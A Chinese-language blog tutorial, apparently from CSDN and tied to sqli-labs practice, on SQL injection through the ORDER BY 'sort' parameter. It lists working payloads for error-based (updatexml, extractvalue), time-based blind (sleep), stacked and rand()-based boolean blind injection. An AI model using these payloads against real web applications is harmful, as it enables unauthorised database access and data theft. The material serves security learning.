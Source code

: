 # 原创
：  【SQL注入】order by 注入：联合盲注、报错、堆叠注入

# 【SQL注入】order by 注入：联合盲注、报错、堆叠注入

**目录**

[一、推荐：](#%E4%B8%80%E3%80%81%E6%8E%A8%E8%8D%90%EF%BC%9A)

[二、简介](#%E4%BA%8C%E3%80%81%E7%AE%80%E4%BB%8B)

[概述：](#%E6%A6%82%E8%BF%B0%EF%BC%9A)

[原理：](#%E5%8E%9F%E7%90%86%EF%BC%9A)

[三、示例](#%E4%B8%89%E3%80%81%E7%A4%BA%E4%BE%8B)

[猜列数：](#%E7%8C%9C%E5%88%97%E6%95%B0%EF%BC%9A)

[联合报错注入：](#%E8%81%94%E5%90%88%E6%8A%A5%E9%94%99%E6%B3%A8%E5%85%A5%EF%BC%9A)

[联合时间盲注注入：](#%E8%81%94%E5%90%88%E6%97%B6%E9%97%B4%E7%9B%B2%E6%B3%A8%E6%B3%A8%E5%85%A5%EF%BC%9A)

[联合堆叠注入：](#%E8%81%94%E5%90%88%E5%A0%86%E5%8F%A0%E6%B3%A8%E5%85%A5%EF%BC%9A)

[联合布尔盲注判断注入：](#%E8%81%94%E5%90%88%E5%B8%83%E5%B0%94%E7%9B%B2%E6%B3%A8%E5%88%A4%E6%96%AD%E6%B3%A8%E5%85%A5%EF%BC%9A)

---


## 一、推荐：

> 
[【SQL注入-可回显】报错注入：简介、相关函数、利用方法<img alt="" src="https://csdnimg.cn/release/blog_editor_html/release2.1.7/ckeditor/plugins/CsdnLink/icons/icon-default.png?t=M666"/>https://blog.csdn.net/qq_53079406/article/details/125017089?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522165793425516782184662074%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&amp;request_id=165793425516782184662074&amp;biz_id=0&amp;utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-1-125017089-null-null.185%5Ev2%5Econtrol&amp;utm_term=%E6%8A%A5%E9%94%99&amp;spm=1018.2226.3001.4450](https://blog.csdn.net/qq_53079406/article/details/125017089?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522165793425516782184662074%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&amp;request_id=165793425516782184662074&amp;biz_id=0&amp;utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-1-125017089-null-null.185%5Ev2%5Econtrol&amp;utm_term=%E6%8A%A5%E9%94%99&amp;spm=1018.2226.3001.4450)[【SQL注入-无回显】时间盲注：原理、函数、利用过程<img alt="" src="https://csdnimg.cn/release/blog_editor_html/release2.1.7/ckeditor/plugins/CsdnLink/icons/icon-default.png?t=M666"/>https://blog.csdn.net/qq_53079406/article/details/125096394?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522165793429016781685386411%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&amp;request_id=165793429016781685386411&amp;biz_id=0&amp;utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-3-125096394-null-null.185%5Ev2%5Econtrol&amp;utm_term=%E7%9B%B2%E6%B3%A8&amp;spm=1018.2226.3001.4450](https://blog.csdn.net/qq_53079406/article/details/125096394?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522165793429016781685386411%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&amp;request_id=165793429016781685386411&amp;biz_id=0&amp;utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-3-125096394-null-null.185%5Ev2%5Econtrol&amp;utm_term=%E7%9B%B2%E6%B3%A8&amp;spm=1018.2226.3001.4450)[【SQL注入-无回显】布尔盲注：原理、函数、利用过程<img alt="" src="https://csdnimg.cn/release/blog_editor_html/release2.1.7/ckeditor/plugins/CsdnLink/icons/icon-default.png?t=M666"/>https://blog.csdn.net/qq_53079406/article/details/125275974?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522165793429016781685386411%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&amp;request_id=165793429016781685386411&amp;biz_id=0&amp;utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-5-125275974-null-null.185%5Ev2%5Econtrol&amp;utm_term=%E7%9B%B2%E6%B3%A8&amp;spm=1018.2226.3001.4450](https://blog.csdn.net/qq_53079406/article/details/125275974?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522165793429016781685386411%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&amp;request_id=165793429016781685386411&amp;biz_id=0&amp;utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-5-125275974-null-null.185%5Ev2%5Econtrol&amp;utm_term=%E7%9B%B2%E6%B3%A8&amp;spm=1018.2226.3001.4450)[【SQL注入】堆叠注入<img alt="" src="https://csdnimg.cn/release/blog_editor_html/release2.1.7/ckeditor/plugins/CsdnLink/icons/icon-default.png?t=M666"/>https://blog.csdn.net/qq_53079406/article/details/125798787?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522165793435916781818791855%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&amp;request_id=165793435916781818791855&amp;biz_id=0&amp;utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-2-125798787-null-null.185%5Ev2%5Econtrol&amp;utm_term=%E5%A0%86%E5%8F%A0&amp;spm=1018.2226.3001.4450](https://blog.csdn.net/qq_53079406/article/details/125798787?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522165793435916781818791855%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&amp;request_id=165793435916781818791855&amp;biz_id=0&amp;utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-2-125798787-null-null.185%5Ev2%5Econtrol&amp;utm_term=%E5%A0%86%E5%8F%A0&amp;spm=1018.2226.3001.4450)


---


---


## 二、简介

> 
<h3>概述：</h3>
order by注入，注入点一般是order by子句后的参数（提供注入点）
并进行desc（逆序）/asc（正序）进行排序


> 
<h3>原理：</h3>
利用order by子句进行猜解表中的列数（修改后面的参数值），再配合union select语句进行回显
<hr/>
直接利用order by提供的注入点，通过更改order by后面的参数，在2配合其他注入方法从而实现语句的注入


---


---


## 三、示例

> 
<h3>猜列数：</h3>
order by num（数字）
通过判断回显是否正确，判断所对应的列数


> 
<h3>联合报错注入：</h3>
联合使用updatexml函数
order by
?sort=(updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1));
<hr/>
联合使用extractvalue函数
order by
?sort=1 and(select extractvalue(0x7e,concat(0x7e,database(),0x7e)))


> 
<h3>联合时间盲注注入：</h3>
联合使用sleep函数
order by
?sort=if((ascii(mid((select database()),1,1))=116),sleep(1),1);


> 
<h3>联合堆叠注入：</h3>
多语句注入
order by 
?sort=……;create table less50 like users


> 
<h3>联合布尔盲注判断注入：</h3>
rand()函数，如果相反结果不一致，即存在盲注
eg：rand(1)与rand(0)；rand(false)与rand(true)；rand(1=1)与rand(1=2)
通过盲注进行判断注入语句是否正确
<hr/>
order by
?sort=rand(ascii(mid((select database()),1,1))&gt;96)
如果正确则与rand(1)结果一直
反之与rand(0)一样

